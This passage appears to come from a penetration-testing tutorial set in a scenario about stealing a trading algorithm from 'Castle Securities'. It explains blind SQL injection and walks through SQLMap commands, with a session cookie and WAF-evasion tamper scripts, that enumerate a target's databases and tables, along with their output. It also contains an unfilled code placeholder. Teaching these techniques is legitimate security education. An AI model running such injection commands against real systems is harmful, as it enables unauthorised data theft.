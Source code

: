 Success! The search parameter is vulnerable to blind SQL injection, but extracting data requires understanding how blind injection works and how to use SQLMap's data extraction capabilities systematically.

### Understanding Blind SQL Injection Exploitation

Blind SQL injection doesn't return database error messages or direct query results. Instead, it allows you to ask the database yes/no questions through application behavior changes. SQLMap automates this process, but understanding how it works makes you more effective at database exploitation.

[PLACEHOLDER:CODE Name: Blind SQL injection methodology demonstration. Purpose: Shows how blind injection works by demonstrating the question-and-answer process that SQLMap automates. Teaches the underlying concepts so students understand what the tool is doing. Value: High.]

In blind injection, you ask the database questions like:

"Is the first character of the database name 'c'?"
- If yes: Application responds normally
- If no: Application responds differently (timing, error, or content changes)

SQLMap automates this process to extract complete database contents:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --dbs
```

The `--dbs` option tells SQLMap to enumerate database names. After 45 minutes of systematic question-asking, SQLMap reveals:

```
[INFO] available databases [4]:
[*] information_schema
[*] mysql
[*] research_db
[*] trading_algorithms
```

The `trading_algorithms` database likely contains the ARGOS implementation. Enumerate its tables:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       --tables
```

This reveals:

```
[INFO] Database: trading_algorithms
[12 tables]
+------------------------+
| algorithm_source_code  |
| model_parameters       |
| training_datasets      |
| performance_metrics    |
| deployment_configs     |
| researcher_notes       |
| argos_v3_models        |
| market_correlations    |
| risk_assessments       |
| backtesting_results    |
| real_time_feeds       |
| algorithm_versions     |
```